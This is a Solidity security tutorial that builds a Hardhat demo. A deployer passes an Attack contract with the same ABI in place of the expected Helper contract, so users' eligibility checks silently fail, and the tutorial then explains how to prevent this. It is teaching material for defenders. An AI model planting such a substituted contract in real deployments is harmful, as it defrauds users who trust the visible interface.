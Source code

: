 # Malicious External Contracts

In crypto world, you will often hear about how contracts which looked legitimate were the reason behind a big scam. How are hackers able to execute a malicious smart contract from a legitimate contract?

We will learn one method today 👀

## What will happen?

There will be three contracts - `Attack.sol`, `Helper.sol` and `Good.sol`. User will be able to enter an eligibility list using `Good.sol` which will further call `Helper.sol` to keep track of all the users which are eligible.

`Attack.sol` will be designed in such a way that eligibility list can be manipulated, lets see how 👀

## Build

Lets build an example where you can experience how the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
- If you are on Windows, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a Hardhat project ready to go!

Start by creating a new file inside the `contracts` directory called `Good.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "./Helper.sol";

contract Good {
    Helper helper;
    constructor(address _helper) payable {
        helper = Helper(_helper);
    }

    function isUserEligible() public view returns(bool) {
        return helper.isUserEligible(msg.sender);
    }

    function addUserToList() public  {
        helper.setUserEligible(msg.sender);
    }

    fallback() external {}
    
}
```

After creating `Good.sol`, create a new file inside the `contracts` directory named `Helper.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Helper {
    mapping(address => bool) userEligible;

    function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

The last contract that we will create inside the `contracts` directory is `Attack.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Attack {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }
    
    fallback() external {}
}
```


You will notice that the fact about `Attack.sol` is that it will generate the same ABI as `Helper.sol` eventhough it has different code within it. This is because ABI only contains function definitions for public variables, functions and events. So `Attack.sol` can be typecasted as `Helper.sol`.

Now because `Attack.sol` can be typecasted as `Helper.sol`, a malicious owner can deploy `Good.sol` with the address of `Attack.sol` instead of `Helper.sol` and users will believe that he is indeed using `Helper.sol` to create the eligibility list.

In our case, the scam will happen as follows. The scammer will first deploy `Good.sol` with the address of `Attack.sol`. Then when the user will enter the eligibility list using `addUserToList` function which will work fine because the code for this function is same within `Helper.sol` and `Attack.sol`.

The true colours will be observed when the user will try to call `isUserEligible` with his address because now this function will always return `false`  because it calls `Attack.sol`'s `isUserEligible` function which always returns `false` expect when its the owner itself, which was not supposed to happen.


Lets try to write a test and see if this scam actually works, create a new file inside the `test` folder named `attack.js`

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy();
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy(_attackContract.address, {
      value: ethers.utils.parseEther("3"),
    });
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _attackContract.address);

    const [_, addr1] = await ethers.getSigners();
    // Now lets add an address to the eligibility list
    let tx = await _goodContract.connect(addr1).addUserToList();
    await tx.wait();

    // check if the user is eligible
    const eligible = await _goodContract.connect(addr1).isUserEligible();
    expect(eligible).to.equal(false);
  });
});

```


To run this test, open up your terminal pointing to the root of the directory for this level and execute this command:

```bash
npx hardhat test
```

If all your tests passed, this means that the scam was successfull and that the user will never be determined eligible 


## Prevention

Make the address of the external contract public and also get your external contract verified so that all users can view the code

Create a new contract, instead of typecasting an address into a contract inside the contuctor. So instead of doing `Helper(_helper)`  where you are typecasting `_helper` address into a contract which may or may not be the `Helper` contract, create an explicit new helper contract instance using `new Helper()`.

Example
```solidity=
contract Good {
    Helper public helper;
    constructor() {
        helper = new Helper();
    }
```



Wow, lots of learning right? 🤯 

Beaware of scammers, super shadowy coders are smart.
